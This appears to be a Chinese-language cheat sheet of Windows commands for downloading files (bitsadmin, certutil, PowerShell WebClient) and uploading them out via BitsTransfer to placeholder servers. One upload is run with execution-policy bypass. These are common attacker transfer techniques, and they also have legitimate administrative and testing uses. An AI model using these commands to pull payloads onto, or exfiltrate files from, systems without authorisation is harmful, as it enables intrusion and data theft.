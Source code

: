 # 一、下载文件
## 1、cmd
### (1)bitsadmin
```
bitsadmin /transfer Winupdate /download http://xx.xx.xx.xx/example.exe "c:\users\***\desktop\example.exe"
```
### (2)certuil

```
certutil -urlcache -split -f https://www.xxx.com/test.py
certutil -urlcache -split -f https://www.xxx.com/test.py ff.py
```
## 2、powershell
```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://www.xx.com/ff.jpg','c:\aaa.jpg')
```
# 二、上传文件
## 1、powershell
注：需配合搭建配置服务器端IIS，服务器端要开启安装BITS上传组件
### 多行
```
Import-Module BitsTransfer
Start-BitsTransfer -Source file.rar -Destination http://xx.xx.xx.xx/upload/file.rar -transfertype upload
```
### 一句话
```
powershell -nop -exec bypass Import-Module BitsTransfer;Start-BitsTransfer -Source avlog.rar -Destination http://xx.xx.xx.xx/upload/example.rar -transfertype upload
```
